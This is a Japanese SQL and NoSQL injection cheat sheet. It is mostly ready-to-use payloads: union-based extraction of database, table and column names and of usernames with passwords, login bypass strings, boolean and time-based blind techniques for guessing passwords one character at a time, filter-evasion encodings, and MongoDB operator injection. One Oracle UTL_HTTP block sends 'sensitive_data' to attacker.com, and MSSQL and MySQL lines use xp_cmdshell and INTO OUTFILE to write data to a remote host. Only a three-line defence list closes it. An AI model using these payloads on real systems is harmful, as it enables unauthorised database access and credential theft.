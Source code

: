 # SQL インジェクション

## Error Based SQLi

画面で Select している列数を探る

```sql
1 union select 1,2,3
```

存在しないデータと Union したら 1,2,3 が表示されるか？（最初の 1 行だけ画面に表示されるパターン）

```sql
0 union select 1,2,3
```

データベース名

```sql
0 union select 1,2,database()
```

DB 内のテーブル名。group_concat で 1 つにまとめてるのがポイント。

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'データベース名'
```

テーブル内の列名

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'テーブル名'
```

全行を 1 セルに表示する

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```

## Blind Based SQLi

DB のデータには興味がなく、ログイン画面をバイパスするような、結果だけを求める場合

```sql
' or 1=1;--
```

## Boolean Based SQLi

データベース名を探索する  
※「このユーザー名は既に存在します」と表示されるような場面で使う

```sql
-- この結果がTrueで
a' UNION SELECT 1,2,3 where database() like '%';--

-- この結果がFalseで
a' UNION SELECT 1,2,3 where database() like 'a%';--

-- この結果がTrueであるとき、sから始まる名前のデータベースが存在することが分かる
-- 2文字目以降も同様に繰り返すことで、全体が判明する
a' UNION SELECT 1,2,3 where database() like 's%';--
```

テーブル名を探索する

```sql
-- Trueであるとき、aから始まるテーブルが存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'データベース名' and table_name like 'a%';--
```

列名を探索する

```sql
-- Trueであるとき、aから始まる列名が存在することが分かる
a' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='データベース名' and TABLE_NAME='テーブル名' and COLUMN_NAME like 'a%';
```

保存されているデータを探索する

```sql
-- Trueであるとき、passwordの1文字目はaであることが分かる
a' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

## Time Based Blind SQLi

Boolean Based と同じだが、結果を画面表示から判別できない場合に、時間遅延で Boolean の判定をする

```sql
-- これがすぐに返り、
a' UNION SELECT SLEEP(5);--

-- これで5秒の遅延が発生する場合、列数が2であることが分かる
a' UNION SELECT SLEEP(5),2;--

-- 遅延が発生する場合、1文字目が4であることが分かる
a' UNION SELECT sleep(5),2 from users where username='admin' and password like '4%';--
```

時間遅延を利用して、Salt、ユーザー名、メールアドレス、パスワードをクラックしているエクスプロイトの例  
https://www.exploit-db.com/exploits/46635

## 帯域外 SQLi

### ファイル出力

```SQL
-- MySQL, MariaDB
-- secure_file_priv設定で出力ディレクトリを限定可能
SELECT sensitive_data FROM users INTO OUTFILE '\\\\<ip>\\logs\\out.txt';

-- MS SQL Server
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\<ip>\logs\out.txt" -c -T';
```

### HTTP

```SQL
-- Oracle  see UTL_FILE
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```

## フィルター回避

```text
# URLエンコード
' OR 1=1-- -> %27%20OR%201%3D1--+

# 16進エンコード
name = 'admin' -> name = 0x61646d696e

# Unicodeエンコード
admin -> \u0061\u0064\u006d\u0069\u006e

# CONCAT
admin -> CONCAT(0x61, 0x64, 0x6d, 0x69, 0x6e)
CHAR(0x61,0x64,0x6D,0x69,0x6E)

# スペースを置き換え
SELECT/**//*FROM/**/users/**/WHERE/**/name/**/='admin'
SELECT+FROM+users+WHERE+name='admin'
SELECT\t*\tFROM\tusers\tWHERE\tname\t=\t'admin'
%09 (水平タブ)、%0A (改行)、%0C (フォームフィード)、%0D (復帰)、%A0 (改行なしスペース)

# キーワード回避
SELEcT * FROM users
SE/**/LECT * FROM/**/users

# 論理演算子
AND -> &&
OR -> ||
```

## インジェクションリスト

https://github.com/payloadbox/sql-injection-payload-list/raw/refs/heads/master/Intruder/exploit/Auth_Bypass.txt

intruder 等で使って弱点を探る。

## NoSQL

### 演算子インジェクション

#### 認証バイパス

```php
# このクエリを想定したとき、
$user = $_POST['user'];
$pass = $_POST['pass'];
$q = new MongoDB\Driver\Query(['username'=>$user, 'password'=>$pass]);

# このポストデータを渡すと、
user[$ne]=xxxx&pass[$ne]=yyyy

# この連想配列として解釈されるため、
$_POST = [
    'user' => ['$ne' => 'xxxx'],
    'pass' => ['$ne' => 'yyyy']
];

# すべてのデータを抽出するクエリになる
$q = new MongoDB\Driver\Query(['username'=>['$ne' => 'xxx'], 'password'=>['$ne' => 'yyy']]);

# admin, user1 以外のユーザー
user[$nin][]=admin&user[$nin][]=user1&pass[$ne]=yyyy

$q = new MongoDB\Driver\Query(['username'=>['$nin' => ['admin', 'user1']], 'password'=>['$ne' => 'yyy']]);
```

#### パスワード推測

```php
# これでログインできるなら、パスワードは5文字
user=admin&pass[$regex]=^.{5}$

# これでログインできるなら、1文字目はc
user=admin&pass[$regex]=^c....$

```

## セキュリティ

- フレームワークの Prepared Statements を使用する
- 入力検証
- ユーザー入力のエスケープ
